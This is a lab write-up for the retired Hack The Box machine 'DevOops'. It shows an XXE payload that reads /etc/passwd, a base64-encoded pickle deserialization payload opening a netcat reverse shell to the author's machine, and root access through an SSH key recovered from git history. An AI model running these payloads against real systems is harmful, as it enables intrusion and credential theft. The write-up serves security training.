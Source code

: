 # DevOops

This is the write-up for the box DevOops that got retired at the 13th October 2018.
My IP address was 10.10.14.15 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.91    devoops.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/devoops.nmap 10.10.10.91
```

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|   256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
|_  256 d5:2f:19:53:b2:8e:3a:4b:b3:dd:3c:1f:c0:37:0d:00 (ED25519)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 5000)

The web server runs on [Gunicorn](https://github.com/benoitc/gunicorn) which is a **Web Server Gateway Interface (WSGI)** written in Python.
Normally such an application sits between Nginx and Python, because Nginx can't call Python directly.

On the web page it shows the following text:
```markdown
Under construction!
This is feed.py, which will become the MVP for Blogfeeder application.

TODO: replace this with the proper feed from the dev.solita.fi backend.
```

In the HTML source code it displays the _/feed_ directory which shows an image of an RSS feed with no interesting information.
Lets search for hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.91:5000 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the _/upload_ directory where it is possible to upload files:

![DevOops Upload page](https://kyuu-ji.github.io/htb-write-up/devoops/devoops_web-1.png)

Lets send the requests to a proxy tool like **Burpsuite** to analyze this functionality.
When uploading a text file it doesn't show any special response, so lets send something with the XML elements:
```markdown
POST /upload HTTP/1.1
(...)

-----------------------------18436640097396874571627245540
Content-Disposition: form-data; name="file"; filename="test.xml"
Content-Type: text/xml

<Test>
	<Author>Test1</Author>
	<Subject>Test2</Subject>
	<Content>Test3</Content>
</Test>

-----------------------------18436640097396874571627245540--
```

Now it shows a different HTTP response:
```markdown
PROCESSED BLOGPOST:
Author: Test1
Subject: Test2
Content: Test3
URL for later reference: /uploads/test.xml
File path: /home/roosa/deploy/src
```

As XML gets processed, the next step is to exploit this with an **XML External Entity (XXE)** vulnerability.

### Exploiting XML External Entity

I will use a [Classic XXE from PayloadsAllTheThings repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml) and modify it with the XML elements:
```markdown
POST /upload HTTP/1.1
(...)

Content-Disposition: form-data; name="file"; filename="test.xml"
Content-Type: text/xml

<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<Test>
	<Author>&file;</Author>
	<Subject>Test2</Subject>
	<Content>Test3</Content>
</Test>
```

This works and displays the usernames from _/etc/passwd_ and this way reading files on the box is possible.
I automated this process with a Python script _devoops_xxe.py_ that can be found in this repository.

Lets read _feed.py_ from the current directory:
```python
(...)
@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']


# TODO: VERY important! DISABLED THIS IN PRODUCTION
# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
# TODO: Replace run-gunicorn.sh with real Linux service script
# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
(...)
```

This directory _/newpost_ was not found by our initial directory enumeration, so lets examine that.
It only accepts POST parameters and grabs request data to load it into _pickle.loads_ and execute it.

As the [Python module pickle](https://docs.python.org/3/library/pickle.html) is not secure, it is possible to execute arbitrary code.
I created a script to exploit this that can be found in this repository:
```markdown
python devoops_exploit-pickle.py
```

This script Base64-encodes the reverse shell command in the exploit, which now has to be sent to the box:
```markdown
POST /newpost HTTP/1.1
Host: 10.10.10.91:5000
(...)
Content-Type: text

Y3Bvc2l4CnN5c3RlbQpwMAooUydybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC4xNSA5MDAxID4vdG1wL2YnCnAxCnRwMgpScDMKLg==
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell session as _roosa_.

## Privilege Escalation

This user has a home directory _/home/roosa_ that has some interesting files in it.
After searching for a while, we find a private SSH key _/home/roosa/deploy/resources/integration/authcredentials.key_ and when comparing that to the private SSH key _/home/roosa/.ssh/id_rsa_ they are not the same.

On this box are some non-default users and root:
- git
- osboxes
- blogfeed
- root

After copying the SSH key and trying it on all of these users, unfortunately none of them work.

The user has another folder _/home/roosa/work/blogfeed_ which looks like a copy of the initial web page, where the same SSH key can also be found in _/home/roosa/work/blogfeed/resources/integration/authcredentials.key_.
This directory has a _.git_ file, which means that it is a **Git repository**.

When looking at the history of the repository with `git log` there are some interesting commits:
```markdown
commit 33e87c312c08735a02fa9c796021a4a3023129ad
Author: Roosa Hakkerson <roosa@solita.fi>
Date:   Mon Mar 19 09:33:06 2018 -0400

    reverted accidental commit with proper key

commit d387abf63e05c9628a59195cec9311751bdb283f
Author: Roosa Hakkerson <roosa@solita.fi>
Date:   Mon Mar 19 09:32:03 2018 -0400

    add key for feed integration from tnerprise backend
```

The user reverted an accidental commit, which was probably the one before it. Lets check the difference between the current version and the version with the accident:
```markdown
git diff d387abf63e05c9628a59195cec9311751bdb283f
```

It shows a different private SSH key, that will be copied again and tried out on the found usernames:
```markdown
chmod 600 rsa_key

ssh -i rsa_key root@10.10.10.91
```

The SSH key works with root!

